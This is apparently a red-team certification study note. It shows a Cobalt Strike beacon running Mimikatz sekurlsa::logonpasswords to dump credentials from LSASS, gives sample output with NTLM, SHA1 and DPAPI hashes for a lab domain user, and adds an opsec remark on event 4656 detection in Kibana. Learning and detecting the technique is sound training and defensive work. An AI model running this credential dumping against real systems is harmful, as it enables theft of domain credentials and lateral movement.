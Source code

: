 
1) Just like using regular [[Mimikatz]], you can use the Cobalt Strike tool to extract [[NetNTLM]] hashes:

```
beacon> mimikatz !sekurlsa::logonpasswords

Authentication Id : 0 ; 579458 (00000000:0008d782)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 8/31/2022 11:49:48 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105
	msv :
	 [00000003] Primary
	 * Username : jking
	 * Domain   : DEV
	 * NTLM     : 59fc0f884922b4ce376051134c71e22c
	 * SHA1     : 74fa9854d529092b92e0d9ebef7ce3d065027f45
	 * DPAPI    : 0837e40088a674327961e1d03946f5f2
```

### ⚠ Opsec

This module will open a read handle to LSASS which can be logged under event 4656.  Use the "Suspicious Handle to LSASS" saved search in Kibana to see them.


### Properties
---
📆 created   {{11-02-2024}} 11:50
🏷️ tags: #redteam #crto 

---


